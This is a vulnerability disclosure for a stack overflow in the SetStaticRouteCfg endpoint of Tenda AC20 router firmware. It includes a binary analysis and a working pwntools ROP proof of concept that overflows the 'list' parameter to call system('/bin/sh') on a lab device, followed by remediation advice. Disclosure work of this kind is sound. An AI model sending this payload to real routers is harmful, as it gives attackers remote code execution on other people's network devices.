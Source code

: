 # Tenda AC20_V16.03.08.05 has a stack overflow in /goform/SetStaticRouteCfg

## Basic Information

Vulnerability manufacturer: Shenzhen Jixiang Tenda Technology Co., Ltd.

Vulnerability level: high risk

Manufacturer's official website: https://www.tenda.com.cn

Affected object type: network equipment

Affected product: Tenda AC20

Affected product version: AC20_V16.03.08.05

Is it a product component vulnerability: No

## 1. Vulnerability Overview

Tenda AC20 is a wireless router from China's Tenda company.

Tenda AC20 has a buffer overflow vulnerability. The vulnerability is caused by the parameter list in the file /goform/SetStaticRouteCfg failing to correctly verify the length of the input data. Attackers can exploit this vulnerability to execute arbitrary code on the system.

## 2. Vulnerability Details

ida analyzes the binary file /bin/httpd, and WebVar obtains the list parameter and passes it to save_staticroute_data

![image-20250721181544396](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250721181544396.png)

There is a stack overflow in sscanf, which directly reads our parameters without restriction. Here we can control the return address of the program, successfully use the rop chain getshell, and pass in a large number of bytes at the same time, which can cause the program to crash.

![image-20250721181730021](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250721181730021.png)

![image-20250721185025546](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250721185025546.png)

POC

```
from pwn import *
import requests




libc_base = 0x7f55e000
cmd = b"/bin/sh"
system=0x0060320
binsh=0x0006AE30
 
gadget1=libc_base+0x00060530
print(hex(gadget1))
gadget2=libc_base+0x0000DC1C
system_addr=libc_base+system
binsh_addr=libc_base+binsh

payload = cyclic(80-4)

payload+= p32(gadget1)*2+b"A"*20+p32(binsh_addr)+p32(system_addr)+b"A"*12+p32(gadget2)

url = "http://192.168.87.135/goform/SetStaticRouteCfg"


params = {"list": payload}
response = requests.get(url, params=params)
response = requests.get(url, params=params)
print(response.text)

```



## 3. Impact of the Vulnerability

1. Attackers can exploit this vulnerability to RCE
1. Attackers can exploit this vulnerability to cause service crash

## 4. Repair plan

1. Contact relevant vendors to obtain security patches and fix vulnerabilities in a timely manner
2. Contact relevant security vendors to update security blocking strategies in a timely manner
3. Temporarily perform security checks on interface parameters

‍